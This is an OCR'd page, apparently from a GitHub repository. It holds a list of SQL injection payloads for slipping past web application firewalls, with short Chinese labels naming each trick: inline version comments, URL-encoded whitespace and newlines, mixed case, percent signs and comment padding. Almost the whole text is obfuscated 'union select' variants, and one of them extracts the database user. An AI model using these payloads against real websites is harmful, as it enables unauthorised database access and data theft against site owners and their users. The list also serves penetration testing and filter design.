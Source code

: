 sel<>ect 程序过滤<>为空 脚本处理

sele/**/ct 程序过滤/**/为空

/*!%53eLEct*/ url 编码与内联注释

se%0blect 使用空格绕过

sele%ct 使用百分号绕过

%53eLEct 编码绕过

大小写

uNIoN sELecT 1,2

union all select 1,2

union DISTINCT select 1,2

null+UNION+SELECT+1,2

/*!union*//*!select*/1,2

union/**/select/**/1,2

and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()

/*!50000union*//*!50000select*/1,2

/*!40000union*//*!40000select*/1,2

%0aunion%0aselect 1,2

%250aunion%250aselect 1,2%09union%09select 1,2

%0caunion%0cselect 1,2

%0daunion%0dselect 1,2

%0baunion%0bselect 1,2

%0d%0aunion%0d%0aselect 1,2

--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2

/*!12345union*//*!12345select*/1,2;

/*中文*/union/*中文*/select/*中文*/1,2;

/*

*/union/*

*/select/

*/1,2;

/*!union*//*!00000all*//*!00000select*/1,2

